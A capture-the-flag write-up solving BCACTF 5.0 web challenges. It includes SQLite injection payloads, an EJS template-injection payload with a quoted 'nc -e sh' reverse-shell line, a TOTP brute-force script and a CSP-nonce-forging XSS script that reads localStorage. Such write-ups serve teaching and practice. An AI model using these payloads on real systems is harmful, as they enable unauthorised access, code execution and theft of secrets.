# BCACTF 5.0

# Web/Sea Scavenger

> **Description** : Take a tour of the deep sea! Explore the depths of webpage secrets and find the hidden treasure. Pro tip: Zoom out!. \
\
> **Author** : `pinuna27`

* Looking at the challenge and its description, it seems that the flag is embedded in the source itself.

* Looking at the source, we can observe that there are 6 routes.



* Let's start with the first route, */shark*. We see a mention of HTML: `Sharks swim really fast, especially through the HTML sea!`. Viewing the source gives us the first part of the flag: `bcactf{b3`.

* Moving on to the next route, `/squid`, we see it talks about the console. Opening the console gives us the second part of the flag: `t_y0u_d1`.

* For the third route, `/clam`, there is a mention of cookies in the console. Hence, we get the third part of the flag in the cookies: `dnt_f1n`.

* The fourth route, `/shipwreck`, gives us a hint in the console to check response headers. We get the fourth part of the flag in the response headers of this particular route: `d_th3_tr`.



* Viewing the source code of the fifth route, `/whale`, we see a `whale.js` file. By opening it, we get our fifth part of the flag: `e4sur3`.

* The sixth route, `/treasure`, tells us about robots.txt. However, there is nothing on /robots.txt, which is obvious as there is another hint in the console telling us to look under the treasure. So, `/treasure/robots.txt` gives us the sixth and final part: `_t336e3}`.

Joining all the parts we get our flag

**Flag**: `bcactf{b3t_y0u_d1dnt_f1nd_th3_tre4sur3_t336e3}`

# Web/Phone number

> **Description** : I was trying to sign into this website, but now it's asking me for a phone number. The way I'm supposed to input it is strange. Can you help me sign in?\
> My phone number is 1234567890\
> **Author** : `Jacob Korn`

* The application features a simple input field where users are prompted to enter their phone number. The correct phone number to enter is `1234567890`. However, direct input into the field is disabled, requiring an alternative method to input the number.

* To bypass this restriction, we can use the browser console to set the input field's value. Execute the following command in the console:
  ```javascript
  document.getElementById('input').value = '1234567890';
  ```
* After setting the input value to 1234567890, submit the form to receive the flag.  

**Flag**: `bcactf{PHoN3_num8eR_EntER3D!_17847928}`

# Web/Tic-Tac-Toe

> **Description** : My friend wrote this super cool game of tic-tac-toe. It has an AI he claims is unbeatable. I've been playing the game for a few hours and I haven't been able to win. Do you think you could beat the AI?\
> **Author** : `Thomas`

* As we open the link we can see a tic-tac-toe game.



* According to the description, we can't beat it by playing the game manually, so let's try to intercept it using Burp Suite.



* As we can see, a WebSocket request is being sent to the server with the current position marked by us on the board and a response from the server with the server's move. So, if we modify the request at the position when we are just a step before winning, we can win the game and get the flag.



* Let's change this so that we can win the game

Modified response: 



Now the board looks like this:


* Let's make our final move, and bingo, we win and get the flag as a reward.



**Flag**: `bcactf{7h3_m4st3r_0f_t1ct4ct0e_678d52c8}`

# Web/NoSql

> **Description** : I found this database that does not use SQL, is there any way to break it?\
> **Author**: `Jack`

* As per name and description it is almost clear that it is a challenge with no sql injection vulnerability.

* Opening the challenge url we can't see much there.
Just a simple response `Not a valid query :(`



* We are also provided with the server side code this time.

```js
const express = require('express')

const app = express();
const port = 3000;
const fs = require('fs')
try {
    const inputD = fs.readFileSync('table.txt', 'utf-8');
    text = inputD.toString().split("\n").map(e => e.trim());
} catch (err) {
    console.error("Error reading file:", err);
    process.exit(1);
}

app.get('/', (req, res) => {
    if (!req.query.name) {
        res.send("Not a valid query :(")
        return;
    }
    let goodLines = []
    text.forEach( line => {
        if (line.match('^'+req.query.name+'$')) {
            goodLines.push(line)
        }
    });
    res.json({"rtnValues":goodLines})
})

app.get('/:id/:firstName/:lastName', (req, res) => {
    // Implementation not shown
    res.send("FLAG")
})

app.listen(port, () => {
    console.log(`App server listening on ${port}. (Go to http://localhost:${port})`);
});
```

* Trying simple inection in the query parameter name `abc' || 'a'=='a` we get the whole table with the first and last names.



* In the hints it is mentioned that the id of `Ricardo Olsen` is 1.

* As a guess we can try counting the number of entries in the table to get the id of `Flag Holder` (Last entry in the table).



So there are 51 entries in the table and as per the source code `/:id/:firstName/:lastName` will give us the flag if :
```
id = 51
firstName = Flag
lastName = Holder
```
Hence visiting `/51/Flag/Holder` gives us the desired flag.

**Flag**: `bcactf{R3gex_WH1z_54dfa9cdba13}`

# Web/JSLearning.com

> **Description** : Hey, can you help me on this Javascript problem? Making strings is hard. \
> **Author** : `Jacob Korn`

* Source code:
```js
import express from 'npm:express@4.18.2'

const app = express();

const flag = Deno.readTextFileSync('flag.txt')

app.use(express.text())

app.use("/", express.static("static"));

app.post("/check", (req, res) => {

    let d = req.body;
    let out = "";
    for (let i of ["[", "]", "(", ")", "+", "!"]) {
        d = d.replaceAll(i, "");
    }
    if (d.trim().length) {
        res.send("ERROR: disallowed characters. Valid characters: '[', ']', '(', ')', '+', and '!'.");
        return;
    }

    let c;
    try {
        c = eval(req.body).toString();
    } catch (e) {
        res.send("An error occurred with your code.");
        return
    }

    // disallow code execution
    try {
        if (typeof (eval(c)) === "function") {
            res.send("Attempting to abuse javascript code against jslearning.site is not allowed under our terms and conditions.");
            return
        }
    } catch (e) {}


    out += "Checking the string " + c + "...|";
    if (c === "fun") {
        out+='Congratulations! You win the level!';
    } else {
        out+="Unfortunately, you are incorrect. Try again.";
    }
    res.send(out);
});

const server = app.listen(0, () => console.log(server.address().port))

```

* Looking at the source code it is obvious that we have to use js-fuck to solve this challenge.

* Submitting `out = flag` in [js-fuck](https://jsfuck.com) simply gives us the flag.

```
payload = (!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+[]]+(!![]+[])[+[]]+(+[![]]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+!+[]]]+([]+[])[(![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(!![]+[])[+[]]+([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]()[+!+[]+[+!+[]]]+(+[![]]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+!+[]]]+(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(![]+[+[]]+([]+[])[([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]]
```

**Flag**: `bcactf{1ava5cRIPT_mAk35_S3Nse_48129846}`

# Web/MOC, INC.

> **Description** : Towards the end of last month, we started receiving reports about suspicious activity coming from a company called MOC, Inc. Our investigative team has tracked down their secret company portal and cracked the credentials to the admin account, but could not bypass the advanced 2FA system. Can you find your way in?\
>username: admin,password: admin \
> **Author** : `Thomas`

* Source code:
```python
from flask import Flask, request, render_template

import datetime
import sqlite3
import random
import pyotp
import sys

random.seed(datetime.datetime.today().strftime('%Y-%m-%d'))

app = Flask(__name__)

@app.get('/')
def index():
    return render_template('index.html')

@app.post('/')
def log_in():
    with sqlite3.connect('moc-inc.db') as db:
        result = db.cursor().execute(
            'SELECT totp_secret FROM user WHERE username = ? AND password = ?',
            (request.form['username'], request.form['password'])
        ).fetchone()

    if result == None:
        return render_template('portal.html', message='Invalid username/password.')

    totp = pyotp.TOTP(result[0])

    if totp.verify(request.form['totp']):
        with open('../flag.txt') as file:
            return render_template('portal.html', message=file.read())

    return render_template('portal.html', message='2FA code is incorrect.')

with sqlite3.connect('moc-inc.db') as db:
    db.cursor().execute('''CREATE TABLE IF NOT EXISTS user (
        username TEXT UNIQUE NOT NULL,
        password TEXT NOT NULL,
        totp_secret TEXT NOT NULL
    )''')
    db.commit()

if __name__ == '__main__':
    if len(sys.argv) == 3:
        SECRET_ALPHABET = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ234567'

        totp_secret = ''.join([random.choice(SECRET_ALPHABET) for _ in range(20)])

        with sqlite3.connect('moc-inc.db') as db:
            db.cursor().execute('''INSERT INTO user (
                username,
                password,
                totp_secret
            ) VALUES (?, ?, ?)''', (sys.argv[1], sys.argv[2], totp_secret))
            db.commit()

        print('Created user:')
        print('  Username:\t' + sys.argv[1])
        print('  Password:\t' + sys.argv[2])
        print('  TOTP Secret:\t' + totp_secret)

        exit(0)

    app.run()
``` 

* As we can see the app is simple and it has a 2FA system for verification.

* It has a random topt secret generated and it verifies the otp with every login.

* But wait is the totp secret random everytime it is generated?

* The answer is no.
Let's look at this particular line of code

```python
random.seed(datetime.datetime.today().strftime('%Y-%m-%d'))
```

* The seed of the random is fixed for a particular date and the description also talks about the final days of the last month (May).

* To solve this challenge I wrote a script which tries every totp for each date of May 2024.

* Script to solve the challenge:
```python
import datetime
import random
import pyotp

import requests

url = "http://challs.bcactf.com:31772/"

for i in range(1,32):
    SECRET_ALPHABET = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ234567'
    random.seed(datetime.datetime(2024, 5, i).strftime('%Y-%m-%d'))
    totp_secret = ''.join([random.choice(SECRET_ALPHABET) for _ in range(20)])
    totp = pyotp.TOTP(totp_secret).now()
    payload = {
    "username": "admin",
    "password": "admin",
    "totp": {totp}
}   
    print(i)
    response = requests.post(url, data=payload)
    if 'incorrect' in response.text:
        continue
    else:
        print(response.text)
        break
        
# bcactf{rNg_noT_r4Nd0m_3n0uGH_a248dc91}
```

**Flag**: `bcactf{rNg_noT_r4Nd0m_3n0uGH_a248dc91}`

# Web/Cookie Clicker

> **Description** : You need to get 1e20 cookies, hope you have fun clicking! \
> **Author** : `Jack`

* As per the description it looks like we have to click the cookie 1e20 time which is obviously not possible manually.

* Let's intercept the request and increase the value of power.



* As expected the value of cookie increased but wait why didn't we get the flag.

* When we click on the cookie again we can see an error message coming from the server.



* What if we drop the error message?

* Dropping the response gives us the flag.



**Flag**: `bcactf{H0w_Did_Y0u_Cl1ck_S0_M4ny_T1mes_123}`

# Web/Duck Finder

> **Description**: This old service lets you make some interesting queries. It hasn't been updated in a while, though. \
> **Author** : `Thomas`

* Source code:
```js
import express from 'npm:express@4.18.2'
import 'npm:ejs@3.1.6'

if (!Deno.env.has('FLAG')) {
    throw new Error('flag is not configured')
}

const breeds = JSON.parse(Deno.readTextFileSync('breeds.json'))

const app = express()

app.use(express.urlencoded({ extended: true }))

app.set('view engine', 'ejs')

app.get('/', (_req, res) => {
    res.render('index', { breedNames: Object.keys(breeds) })
})

app.post('/', (req, res) => {
    for (const [breed, summary] of Object.entries(breeds)) {
        if (req.body?.breed?.toLowerCase() === breed.toLowerCase()) {
            res.render('search', {
                summary,
                notFound: false,
                ...req.body
            })
            return
        }
    }

    res.render('search', { notFound: true })
})

const server = app.listen(0, () => console.log(server.address().port))
```



* As per the source code the app is a searching enginer for breed and if the breed matches from the list it provides us the summary.

* If we see the .ejs files we can see the breed parameter is simply passed into the page and rendered. So ssti was the first though and initially I was trying to modify the `notFound` varaible to false with the help of prototype pollution in the `express@4.18.2` pacakge as breed gets rendered only when `notFound` = `false`. But this approach failed.

* The next interesting part is the package `ejs@3.1.6`. It is vulnerable to ssti and here is the poc available online. [POC](https://eslam.io/posts/ejs-server-side-template-injection-rce/)

```js
settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('nc -e sh 127.0.0.1 1337');s
```

* This was the payload available in the poc but the challenge had no network access so we can't get reverse shell.

* But we can see in the poc the `__append` function can be used to render something back on the html.

* Hence we used this approach to get the flag.
```
Final Payload = breed=Pekin&settings[view options][outputFunctionName]=x;var flag = Deno.env.get('FLAG');__append(flag);s
```
* And it successfully rendered the flag on the html back.



**Flag**: `bcactf{a_l1Ttl3_0uTd4T3d_qYR8IeICVTLPU0uK}`


# Web/Michaelsoft Gring
> **Description** : From the makers of famous operating system Binbows comes a new search engine to rival the best: Gring. The sqlite database is super secure and has only the best search results picked by our custom AI (we forgot to train it but that's not important). \
> **Author** : `Jacob Korn`


* As per the description and hint it's a sql injection challenge in sqlite. But the problem is it spilts the input by whitespaces. So we have to bypass this somehow.

* /**/ will not work for this challenge as the searching parameter directly goes into the route and it will respond with a 404 error.

* But we can easily bypass this with tabspace (%09) `\t` or new line character (%0A) `\n` url encoded 

So to list the tables we can use the payload as
```sql
random'UNION%0ASELECT%0Aname%0AFROM%0Asqlite_master%0AWHERE%0Atype='table'--
```
This lists us two tables flag and search.



And we can read the flag table using this payload:
```sql
random'UNION%0ASELECT%0A*%0AFROM%0Aflag--
```



**Flag**: `bcactf{59L_1n1ECTeD_026821}`

# Web/User #1

> **Description** : I was working on this website and wanted you to check it out. The code is a bit of a mess, since it's only an extremely early version. In fact, you're the very first user, with ID 1! \
> **Author** : `Marvin`



As we can see we can change the username and as per hints it uses UPDATE statement and we can inject in it.

Probably the app is using this query
```sql
UPDATE users SET name="<input>" WHERE id=1;
```

So we tried to exploit and display the results in the name field.

Here are some payloads and their output

```
1. Payload: ",name=(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%')--
   Result: users,roles_eab48ad667ed5a02

2. Payload: ",name=(SELECT group_concat(name) FROM pragma_table_info('users'))--
   Result: id,name

Similarly there are two columns in the roles_eab48ad667ed5a02 table id,admin

3. Payload: ", name=(SELECT sql FROM sqlite_master WHERE tbl_name='roles_eab48ad667ed5a02') WHERE id=1  --
   Result:  CREATE TABLE roles_44f63838742cf87d (id INTEGER, admin INTEGER, FOREIGN KEY(id) REFERENCES users(id) ON UPDATE CASCADE)

Similarly
   CREATE TABLE users (id INTEGER PRIMARY KEY, name TEXT NOT NULL)
```

* So let's discuss the results now. We have two tables users and roles_eab48ad667ed5a02.
The database gets reset every 15 minutes.

* The users table has two columns name and id.
id = 0 is assigned to a name and as per the structure of the table `PRIMARY KEY` is used for the column id which means we can't change the id to an existing value in this table. So as 0 is assigned to a name hence we directly can't change the value to 0

* The second table (roles_44f63838742cf87d) is interesting. It has two columns admin and id.
for `id = 0 admin = 1 `and for `id = 1 admin = 0`.
So now it makes clear that only users with id = 0 have admin access.

* So if we can make our id = 0 we can get admin access or we can make admin = 1 for id = 1.

* Here is the interesting part `(id INTEGER, admin INTEGER, FOREIGN KEY(id) REFERENCES users(id) ON UPDATE CASCADE)`. This part tells us that the users table is the parent table and holds a foreign key realtion with its child table. So if we change the value of id in the users table it will automatically change the value in the roles table.

* So if we first make id = 0 to id = 3 in users table then we have id = 3 as admin = 1.
Now if we change id = 1 to id = 5 we have id = 5 as admin = 0 in the roles table. And now finally if we change the id = 3 back to id = 1 then id = 1 will have admim = 1 which simply meanse we have admin role.

* But here is a twist when you change the id = 1 to id = 5 the cookie will gets reset as it is menitoned you will always have id = 1. So we have to make sure that cookie doesn't change while doing so.

* So let's start exploiting
1. `",id = 3 WHERE id = 0;--`

    Now save the cookie somewhere

2. `",id = 5 WHERE id = 1;--`

    Put back the old cookie back

3. `",id = 1 WHERE id = 3;--`

* And we will get the flag in response



**Flag**: `bcactf{g3t_BEtA_t3StERs_f6a71451d481a8}`

# Web/Transcriptify 

> **Description** : The secretaries at my school are tired of manually processing transcript requests, so they've built an app to the job for them. You would hope that anything handling private student info would be secure, right? I hope so too. \
> **Author** : `Thomas`



* This was an XSS challenge with CSP bypass. The app is simple it generates transcripts with some parameters. The interesting parameter is name as it is directly passed into the html which leaves a risk of xss.

* `Content-Security-Policy: default-src 'self'; script-src 'nonce-MTcxODA0MTEwMDAwMA=='`

* As we can see we have to send a Nonce value with the scipt taq to execute it and the nonce value can be easily bypassed as it is the base64 of timestamp of the time of request.

* As per the author the flag was in localstorage so we have to include the flag in the pdftranscript url and see the pdf to get the flag.

* To meet these requirements we made a script which can include the correct Nonce in our request.

```python
import requests
from time import time
from base64 import b64encode
from urllib.parse import quote
import json

base_url = 'http://challs.bcactf.com:30147'

nonce = b64encode(str(int(time()+1)*1000).encode()).decode()
grade = {"name": "test", "grade": ["100", "A"]}
params = {"studentName": f"<script nonce='{nonce}'>document.querySelector('body').innerHTML=localStorage.getItem(localStorage.key(0))</script>", "courses": [grade]}
encoded_params = quote(json.dumps(params), safe='=&?')
url = f"{base_url}/pdftranscript?transcript={encoded_params}"
print(url)
res = requests.get(url)

with open("test.pdf", "wb") as pdf:
    pdf.write(res.content)

print("PDF Saved")
```

* We have to try 2 3 times as sometimes nonce value is a bit different in miliseconds.



**Flag** : `bcactf{yOur_trAnSCripT_Ha5_BEeN_prOc3SS3D_1e9442f4}`

